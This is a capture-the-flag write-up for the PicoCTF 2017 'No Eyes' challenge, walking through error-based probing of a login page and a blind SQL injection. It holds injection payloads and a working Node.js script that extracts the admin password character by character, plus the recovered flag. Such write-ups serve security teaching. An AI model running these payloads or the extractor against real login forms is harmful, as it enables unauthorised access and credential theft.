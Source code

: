 # PicoCTF2017
## Writeup for No Eyes

    The website(http://shell2017.picoctf.com:16012/) isn't really me much, but you can still get the admin password, right?
    
And a quick look at the hints:

    Sometimes an error message can be just as useful.
    
The website visibly has nothing but a login page.

So let's try some error messages. First, We'll login with no information at all.

    User not Found.

Okay, so it looks like the program separately checks for username and password. To confirm this, We'll login with my username as "admin" and my password as some random characters.

    Incorrect Password.
    
Great! Now let's try some basic SQL injection to see what happens.  
We'll enter the username as something random, use an ending single quote, throw in a OR 1=1, then comment off the rest. Like this:  

    abcdef' OR 1=1 -- 

This means that, if our SQL injection is valid, the username will return valid. It will return valid because anything combined with an OR 1=1 would logically return true. After logging in with this, we get a very important error message: 

    Incorrect Password.

Why is this important? Because this means that the username query returned true, and therefore our SQL injection worked. If the website returned "User not Found", then the SQL injection would not have worked.  

The next thing we'll do is enter some code that will break the SQL injection in hopes of getting a specific error message. To do that, we can throw in an ending single quote, but not comment off the rest. For the username, we can literally just type:  

    test' 
    
And that gives us the error:  

    There Was An Error With Your Request:
    select * from users where user = 'test'';

Great! This tells us that the databse we want to pull from is named "users", and the field for username is "user". Using that naming system, we can assume that the field for password is "pass".  

The next step is to find out what database engine they use for SQL. Different SQL database engines have different methods. Because the last question used sqlite, I kind of just guessed they would use sqlite for this one as well. To confirm, I ran a simple union that would work with sqlite. Google gives us this nice page: (https://sqlite.org/lang_corefunc.html)[https://sqlite.org/lang_corefunc.html].  

Remember that we are looking for a "Incorrect Password" error message, because that would mean that the username query returned true. To test if the database engine is sqlite, I used this as the username:  

    test' and 1=0 union all select * from users where substr(user,1,3)="adm" -- 
    
And we get the error message of "Incorrect Password". So let's break this down. Before the union, we pass in a username of test combined with an and 1=0. Because 1 will never equal 0, the first part of the injection will not give any results. This is important because if the first part of the injection did return a result, then the sql code would always pass no matter what is after the union. We only want the sql code to pass if the second part of the code passes. So essentialy, we are unioning nothing with a query that will find if the first 3 letters of any users username is "adm" (the first 3 letters of admin), and if that returns a result, then we will get a "Incorrect Password" error, and therefore proves that the first part is true.  

I'm sure you can see where this is going... Instead of checking the substring of the username, we can check the substring of the password. We can start with substr(pass,1,1)="some letter", and guess until we get an "Incorrect Password". Once we get an incorrect password, we know what the first letter is, then we can move onto substr(pass,1,2)="two letters". So on and so forth. You could go through the painful process of trying to manually guess all the letters (which I ashamedly did...) but for the sake of this writeup, let's write a program that will do it for us.  

I'm a JavaScript and Node.js fan. This code is written in JavaScript, but is well commented so it should be understandable for any programmer. Before writing a program however, we need to find out what data to post and where. Viewing the source of the web page, I found this for the form:  

    <form class="form-signin" method="post">
        <h4>Welcome back.</h4>
        <input type="text" name="username" class="form-control input-sm chat-input" placeholder="username" />
        </br>
        <input type="text" name="password" class="form-control input-sm chat-input" placeholder="password" />
        </br>
        <div class="wrapper">
            <span class="group-btn">     
                <button class="btn btn-primary btn-md" type="submit">login</button>
            </span>
        </div>
    </form>
    
So the username has the name "username", the password has the name "password", and the location of the post is just root (/). Now, let's write the program.  

    // To let us use constants and lets. If you are not using JavaScript, this is irrelevant
    'use strict'

    // Request is our package for sending post requests with our login data.
    const request = require('request')
    const URL = 'http://shell2017.picoctf.com:16012/'

    // We make a string of all characters Iwe think will be in the password. We then split it by nothing to make it into an array.
    // const acceptableCharacters = 'abcdefghijklmnopqrstuvwxzyABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_[](){}'.split('')
    // These characters took trial and error to get. I started with only lowercase letters, when that didn't give me what
    // I wanted, I added numbers and underscores. Luckily, that was enought to get the flag.
    const acceptableCharacters = 'abcdefghijklmnopqrstuvwxzy1234567890_'.split('')

    /*
     * Here is our logic:
     * We will send a request with the password starting at one letter.
     * Whichever request is successful will build off of what it sent
     */
    for (let i = 0; i < acceptableCharacters.length; i++) {
      makePost(acceptableCharacters[i])
    }

    // Sends a post with the current guess. If the guess is successful, it logs the guess,
    // then makes more posts with letters added onto that guess.
    function makePost (guess) {
      request.post({
        url: URL,
        form: { // I got the name of the fields to be sent by viewing the source of the login page, and checking the "name" option of the textboxes.
          username: 'test\' and 1=0 union all select * from users where substr(pass,1,' + guess.length + ')="' + guess + '" -- ',
          password: ''
        }
      }, function (err, res, body) {
        if (isValidPost(body)) {
          console.log(guess)
          for (let i = 0; i < acceptableCharacters.length; i++) {
            makePost(guess + acceptableCharacters[i])
          }
        }
      })
    }

    // Determines if the post is valid by checking if the response string contains the words "Incorrect Password"
    // However, when a user isn't found, the error message is "User not found", so I shortened the words to search for
    // down to just "Inco"
    function isValidPost (res) {
      if (res) {
        return res.indexOf('Inco')>-1
      } else {
        // If there is no reason, the server probably crashed or something.
        console.log('Timeout. Try again.')
      }
    }

After letting that code run for a good minute or so, I get the following:  

    n
    no
    not
    not_
    not_a
    not_al
    not_all
    not_all_
    not_all_e
    not_all_er
    not_all_err
    not_all_erro
    not_all_error
    not_all_errors
    not_all_errors_
    not_all_errors_s
    not_all_errors_sh
    not_all_errors_sho
    not_all_errors_shou
    not_all_errors_shoul
    not_all_errors_should
    not_all_errors_should_
    not_all_errors_should_b
    not_all_errors_should_be
    not_all_errors_should_be_
    not_all_errors_should_be_s
    not_all_errors_should_be_sh
    not_all_errors_should_be_sho
    not_all_errors_should_be_show
    not_all_errors_should_be_shown
    not_all_errors_should_be_shown_
    not_all_errors_should_be_shown_5
    not_all_errors_should_be_shown_59
    not_all_errors_should_be_shown_599
    not_all_errors_should_be_shown_599b
    not_all_errors_should_be_shown_599bf
    not_all_errors_should_be_shown_599bfc
    not_all_errors_should_be_shown_599bfc4
    not_all_errors_should_be_shown_599bfc4e
    not_all_errors_should_be_shown_599bfc4ee
    not_all_errors_should_be_shown_599bfc4ee4
    not_all_errors_should_be_shown_599bfc4ee41
    not_all_errors_should_be_shown_599bfc4ee419
    not_all_errors_should_be_shown_599bfc4ee4197
    not_all_errors_should_be_shown_599bfc4ee4197f
    not_all_errors_should_be_shown_599bfc4ee4197fd
    not_all_errors_should_be_shown_599bfc4ee4197fdc
    not_all_errors_should_be_shown_599bfc4ee4197fdc5
    not_all_errors_should_be_shown_599bfc4ee4197fdc5e
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed9
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed936
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed9361
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f5
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f51
    not_all_errors_should_be_shown_599bfc4ee4197fdc5ed93612a9c4f515
    
Obviously the last one will be our flag!
